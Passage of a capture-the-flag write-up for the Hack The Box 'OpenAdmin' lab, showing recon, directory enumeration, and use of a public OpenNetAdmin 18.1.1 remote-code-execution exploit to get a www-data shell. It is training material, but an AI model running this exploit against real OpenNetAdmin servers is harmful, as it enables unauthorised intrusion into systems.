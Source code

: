 # recon
- 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

## gobuster
```
/artwork (Status: 301)
/index.html (Status: 200)
/music (Status: 301)
/server-status (Status: 403)
/sierra (Status: 301)
```

http://openadmin.htb/ona/
- OpenNetAdmin 18.1.1
- https://www.exploit-db.com/exploits/47691

# foothold as www-data
```console
bibo318@parrot:~/HTB/openadmin$ ./47691.sh 'http://openadmin.htb/ona/'
./47691.sh: line 8: $'\r': command not found
./47691.sh: line 16: $'\r': command not found
./47691.sh: line 18: $'\r': command not found
./47691.sh: line 23: syntax error near unexpected token `done'
./47691.sh: line 23: `done'
```
to fix this run
```console
bibo318@parrot:~/HTB/openadmin$ dos2unix 47691.sh 
dos2unix: converting file 47691.sh to Unix format...
bibo318@parrot:~/HTB/openadmin$ ./47691.sh 'http://openadmin.htb/ona/'
$ id
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
$ pwd
/opt/ona/www
$ cd /home
$ pwd
/opt/ona/www
```
seem like we are trap... cannot `cd` anywhere...
